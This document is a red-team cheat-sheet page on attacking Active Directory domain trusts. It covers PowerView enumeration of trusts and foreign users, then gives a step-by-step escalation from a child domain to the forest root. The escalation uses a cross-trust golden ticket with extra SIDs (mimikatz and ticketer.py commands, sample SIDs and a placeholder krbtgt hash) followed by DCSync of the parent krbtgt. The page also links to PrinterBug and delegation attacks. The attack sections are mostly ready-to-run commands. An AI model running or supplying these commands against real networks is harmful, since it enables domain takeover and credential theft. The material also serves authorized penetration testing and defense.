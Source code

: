 # Attack Trusts

> Note that the Active Directory domain is not the security boundary; the AD forest is. (Sean Metcalf, [ref](https://adsecurity.org/?p=1640))

* [http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)
* [http://www.harmj0y.net/blog/redteaming/domain-trusts-were-not-done-yet/](http://www.harmj0y.net/blog/redteaming/domain-trusts-were-not-done-yet/)
* [http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/](http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/)
* [https://habr.com/ru/company/jetinfosystems/blog/466445/](https://habr.com/ru/company/jetinfosystems/blog/466445/)

Enum foreign users and groups:

```
PowerView3 > Get-DomainForeignUser -Domain megacorp.com
PowerView3 > Get-DomainForeignGroupMember -Domain megacorp.com
```




## Theory

* **Trust** 👉🏻 a link between the authentication systems of two domains
* **Transitive** trust 👉🏻 the trust is extended to objects which the child domain trusts
* **Non-transitive** trust 👉🏻 only the child domain itself is trusted
* **Bidirectional** (two-way) trust 👉🏻 users from both trusting domains can access resources
* **One-way** trust 👉🏻 only users in a trusted domain can access resources in a trusting domain, not vice-versa (the direction of trust is opposite to the direction of access)

Some trust types:

| **Trust Type**           | **Description**                                                                                                                                                 |
|--------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Parent-child             | Domains within the same forest. The child domain has a *bidirectional transitive* trust with the parent domain.                                                 |
| Tree-root (intra-forest) | A *bidirectional transitive* trust between a forest root domain and a new tree root domain. Created implicitly when a new domain tree is created in the forest. |
| Forest                   | A *transitive* trust between two forest root domains. Enforces SID filtering.                                                                                   |
| External (inter-forest)  | A *non-transitive* trust between two separate domains in separate forests that are not already joined by a forest trust. Enforces SID filtering.                |




## sIDHistory/ExtraSids Hopping

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)
* [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)

Check if SID filtering is enabled for a trust:

```
Cmd > netdom.exe trust child.megacorp.local /domain:megacorp.local /quarantine
SID filtering is not enabled for this trust. All SIDs presented in an
authentication request from this domain will be honored.
```

Use PowerView to enumerate domain trusts:

```
PowerView3 > Get-ForestDomain

Forest                  : megacorp.local
DomainControllers       : {DC03.megacorp.local, DC04.megacorp.local}
Children                : {child.megacorp.local}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  :
PdcRoleOwner            : DC03.megacorp.local
RidRoleOwner            : DC03.megacorp.local
InfrastructureRoleOwner : DC03.megacorp.local
Name                    : megacorp.local

Forest                  : megacorp.local
DomainControllers       : {DC01.child.megacorp.local, DC02.child.megacorp.local}
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : megacorp.local
PdcRoleOwner            : DC01.child.megacorp.local
RidRoleOwner            : DC01.child.megacorp.local
InfrastructureRoleOwner : DC01.child.megacorp.local
Name                    : child.megacorp.local

PowerView3 > Get-DomainTrust | ft

SourceName           TargetName           TrustType                TrustAttributes TrustDirection
----------           ----------           ---------                --------------- --------------
child.megacorp.local megacorp.local       WINDOWS_ACTIVE_DIRECTORY WITHIN_FOREST   Bidirectional
child.megacorp.local megacorp.com         WINDOWS_ACTIVE_DIRECTORY FILTER_SIDS     Bidirectional

PowerView3 > Get-DomainTrustMapping | ft

SourceName           TargetName           TrustType                TrustAttributes TrustDirection
----------           ----------           ---------                --------------- --------------
child.megacorp.local megacorp.local       WINDOWS_ACTIVE_DIRECTORY WITHIN_FOREST   Bidirectional
child.megacorp.local megacorp.com         WINDOWS_ACTIVE_DIRECTORY FILTER_SIDS     Bidirectional
megacorp.com         child.megacorp.local WINDOWS_ACTIVE_DIRECTORY FILTER_SIDS     Bidirectional
megacorp.local       child.megacorp.local WINDOWS_ACTIVE_DIRECTORY WITHIN_FOREST   Bidirectional
```

Exploiting Bidirectional-ParentChild trust between child.megacorp.local ⟷ megacorp.local.

For creating a cross-trust golden ticket we'll need:

1. child domain FQDN (`child.megacorp.local`);
2. name of the child domain's DC machine account and its RID (`DC01$`, `31337`);
3. the SID of the child domain (`S-1-5-21-4266912945-3985045794-2943778634`);
4. the SID of the parent domain (`S-1-5-21-2284550090-1208917427-1204316795`);
5. compomised krbtgt hash from the child domain (`00ff00ff00ff00ff00ff00ff00ff00ff`);
6. ???
7. PROFIT.

```
1.
PS > $env:userdnsdomain
CHILD.MEGACORP.LOCAL

2.
PowerView3 > (Get-DomainComputer DC01.child.megacorp.local | select ObjectSID).ObjectSID
S-1-5-21-4266912945-3985045794-2943778634-31337

3.
PowerView3 > Get-DomainSID
S-1-5-21-4266912945-3985045794-2943778634

4.
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
S-1-5-21-2284550090-1208917427-1204316795-502
```

Create cross-trust golden ticket:

```
mimikatz # kerberos::golden /domain:child.megacorp.local /user:DC01$ /id:31337 /groups:516 /sid:S-1-5-21-4266912945-3985045794-2943778634 /sids:S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 /krbtgt:00ff00ff00ff00ff00ff00ff00ff00ff /ptt
Or
$ ticketer.py -nthash 00ff00ff00ff00ff00ff00ff00ff00ff -user-id 31337 -groups 516 -domain child.megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -extra-sid S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 'DC01'
```

For DCSyncing we'll need only parent domain FQDN (`megacorp.local`):

```
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())[0].RootDomain.Name
megacorp.local
```

DCSync:

```
mimikatz # lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local
```




## UnD + PrinterBug

* [https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe](https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe)




## Visualization (yEd)

* [http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/](http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/)
* [https://github.com/HarmJ0y/TrustVisualizer](https://github.com/HarmJ0y/TrustVisualizer)
* [https://github.com/snovvcrash/TrustVisualizer](https://github.com/snovvcrash/TrustVisualizer)
* [https://www.yworks.com/products/yed](https://www.yworks.com/products/yed)

```
PowerView3 > Get-DomainTrustMapping | Export-Csv -NoTypeInformation trusts.csv
$ git clone https://github.com/snovvcrash/TrustVisualizer && cd TrustVisualizer
$ pip3 install -r requirements.txt
$ python3 TrustVisualizer.py trusts.csv
```
